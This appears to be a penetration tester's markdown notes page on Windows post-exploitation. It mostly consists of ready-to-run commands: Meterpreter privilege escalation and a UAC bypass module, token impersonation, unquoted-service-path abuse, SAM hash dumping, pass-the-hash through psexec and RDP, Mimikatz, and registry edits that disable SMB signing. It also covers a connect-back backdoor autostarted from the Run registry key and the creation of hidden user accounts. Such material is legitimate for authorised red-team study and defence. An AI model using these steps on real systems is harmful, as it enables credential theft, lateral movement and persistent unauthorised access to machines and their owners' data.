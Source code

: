 ## General Information

During the post-exploitation phase, it might be necessary/desired to modify in some way the machines
you gained access to. Remember that these changes should be logged, and that backups of whatever is
changed should be taken and stored safely.

## Privilege Escalation and Persistence

The first step after compromising a system is to escalate the privileges and to maintain
persistence, ensuring that we can get access to the same system at a different point in time.

There are mainly two different privilege escalation strategies: Horizontal and Vertical.

**Horizontal** escalation means gaining same-level access to a different machine.
**Vertical** escalation means gaining SYSTEM/root level access to a machine.


### Privilege Escalation

#### Windows


#### Basic Meterpreter
 
```
getsystem
```

It might not work in case UAC is enabled. To verify that, use

```
post/windows/gather/win_privs
```

In case UAC is enabled, it is possible to use

```
exploit/windows/local/bypassuac_vbs
```

#### Incognito

Another strategy is to use a module called
[Incognito](https://www.gracefulsecurity.com/privesc-stealing-windows-access-tokens-incognito/),
that can be loaded directly from Meterpreter. This tool allows to dump users' tokens, add new users
to groups etc.

```
use incognito
list_tokens -u
```

At this point we can try impersonating some other user, and we can access different resources both
locally and within the domain.

#### Unquoted Paths

Unquoted paths can be used to maintain persistence. If a Windows service is configured to run an
executable whose path is both unquoted and contains spaces, Windows will search for .exe files in every
path after a space, until it finds one.

```
wmic service get name,displayname,pathname,startmode|findstr/i"auto" |findstr/i/v "c:\windows\\" |findstr/i/v """
```

If we have write access to any of the subpaths that Windows will look for, then we can drop a binary
that will be executed every time the original service is run.
This can both ensure persistence and, in case the service runs with higher privileges, allow for
privilege escalation.

Metasploit also contains a module to do this:

```
exploit/windows/local/trusted_service_path
```

#### Writeable Paths

Whenever there is a high-privilege process that is started using a binary in a directory where we do
have write access, we can use that process to escalate the privileges.


### Persistence

There are several techniques to maintain access to systems, which depend heavily on the OS. Many
techniques to achieve persistence need privileged access.
A rough idea of the techniques is the following:

* Getting a password Hash and use services that allow remote access (RDP, VNC, SSH, etc.) by
    * Pass-the-hash
    * Crack it
* Create a Backdoor
* Create a new user that can access services such as RDP, SSH, etc.

#### Meterpreter Migrate

If the access is through a meterpreter session, one of the first things to do is to run 

```
migrate -P [PID]
run post/windows/manage/migrate
```

This will attach the meterpreter session to a different process. This technique will only ensure
that the session won't be dropped if the exploited application will be closed (for example a browser
session), and for this, it doesn't require high privileges.

#### Getting Hashes

On Windows, the most straightforward way to dump the SAM database, that contains users' hashes is to
run

```
hashdump
```

within a Meterpreter session (requires SYSTEM access).


#### Pass-the-Hash

In order to use the obtained hashes to access other systems, we can use pass-the-hash, which is
implemented in:

```
exploit/windows/smb/psexec
set SMBPass [HASH]
```

In some cases, this technique might fail and some changes are necessary on the target machine to
have this technique to work. Namely, two registries might need to be modified:

```
# Allow users in the local-administrator group to pass-the-hash
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System
# Add a new DWORD (32-bit) named LocalAccountTokenFilterPolicy and set its value to 1
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters
# Add a new DWORD (32-bit) named RequireSecuritySignature and set its value to 0
```

To do this in PowerShell, we can use:

```
Set-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LocalAccountTokenFilterPolicy -Value 1 -Type DWord
Set-ItemProperty -Path
HKLM:\System\CurrentControlSet\Services\LanManServer\Parameters –Name RequireSecuritySignature –Value 0 –Type DWord
```

or we can do it manually via the `reg` command:

```
reg add “HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System” /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
reg add “HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters” /v RequireSecuritySignature /t REG_DWORD /d 0 /f
```

More info available
[here](https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/).

#### Pass-the-Hash over RDP

If we have a NTLM hash and RDP is available, we can use clients such as `xfreerdp`:

```
xfreerdp /u:[USER] /d:[DOMAIN] /pth:[HASH] /v:[IP]
```

#### Mimikatz

!!! note
    Mimikatz needs to be running in a 64-bit process. Use `sysinfo` in meterpreter to check this

Mimikatz is a tool that can extract passwords (and much more) from memory.

```
load mimikatz
```

It has then several commands such as `kerberos`, `wdigest` `ssp` etc.

#### RDP

RDP is the prime service to access remotely to maintain access.

To verify whether RDP is enabled:

```
net start
wmic service where 'Caption like "Remote%" and started=true' get Caption
```

If the service is not enabled, from meterpreter we have script that automates the whole flow:

```
run getgui -e [-u [USER] -p [PASS]]
```

it can also add a new user for RDP in addition to enable the service (`-e`).
In order to grant a user access to RDP, this needs to be in the `Remote Desktop Users` group.

To add a user to the group, we can run 

```
# List users in the group
net localgroup "Remote Desktop Users"
net localgroup "Remote Desktop Users" [USER] /add
```

Now we can try logging in with

```
rdesktop [IP] -u [USER] -p [PASS]
```

#### Backdooring

Creating a backdoor means that we manage to upload a binary that will try to connect back to use
every few seconds, everytime the machine is on.

Metasploit already implements all this with the `run persistence` script.

The steps can also be done manually:

* Generate a payload with `msfvenom`
* Upload the backdoor
* Run the backdoor
* Add the backdoor to registry for autostart
  `HKLM\Software\Microsoft\Windows\CurrentVersion\Run\backdoor.exe`

To run the last step manually, we can use

```
reg setval –k HKLM\\software\\microsoft\\windows\\currentversion\\run –d [value_of_the key] –v [name_of_the_key]
```

#### Add a New User

In order to create a new user we can use

```
net user [USER] [PASS] /add
net localgroup [GROUP] [USER] /add
```


